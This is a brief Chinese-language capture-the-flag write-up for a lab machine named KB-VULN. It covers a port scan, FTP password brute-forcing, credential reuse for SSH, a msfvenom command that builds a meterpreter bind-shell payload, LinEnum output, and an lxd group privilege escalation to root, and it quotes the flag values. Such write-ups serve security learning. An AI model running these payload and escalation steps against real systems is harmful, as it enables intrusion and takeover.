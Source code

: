 # KB-VULN

100.100.1.25



## 端口扫描

```
21/tcp  open     ftp vsFTPd 3.0.3
22/tcp  open     ssh
25/tcp  open     smtp
80/tcp  open     http
110/tcp open     pop3
```





### ftp

通过爆破得到密码：`sysadmin:password1`

user.txt:`48a365b4ce1e322a55ae9017f3daf0c0`:sysadmin



### ssh

密码也是：password1





## 信息收集

```
Benjamin Stone
Katleen Stone
Sadie White
Jerome Jensen

```



### back.txt

```
{"1":{"ID":1,"name":"My icons collection","bookmark_id":"59no1thgiy900000","created":null,"updated":1553168788,"active":1,"source":"local","order":0,"color":"000000","status":1},"59no1thgiy900000":[{"id":126488,"team":0,"name":"download","color":"#000000","premium":0,"sort":2},{"id":126512,"team":0,"name":"monitor","color":"#000000","premium":0,"sort":3},{"id":126500,"team":0,"name":"chat","color":"#000000","premium":0,"sort":4},{"id":126514,"team":0,"name":"glasses","color":"#000000","premium":0,"sort":5},{"id":126507,"team":0,"name":"vector","color":"#000000","premium":0,"sort":6},{"id":126502,"team":0,"name":"reload","color":"#000000","premium":0,"sort":1}]}
```

### f12

```
 <!-- Username : sysadmin -->
```



## 提权

```
msfvenom -p linux/x86/meterpreter/bind_tcp -a x86 -f elf  RHOST=100.100.1.25 LPORT=60080  > fuck#采用正向连接
```



sysinfo

```
Computer     : 100.100.1.25
OS           : Ubuntu 18.04 (Linux 4.15.0-112-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```



用`LinEnum.sh`检查权限配置

结果：

```shell
[+] We're a member of the (lxd) group - could possibly misuse these rights!
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```



https://www.freebuf.com/articles/system/216803.html

lxd提权！！！



拿到flag

```
root@kb-server:/# cat /root/flag.txt 
1eedddf9fff436e6648b5e51cb0d2ec7
```

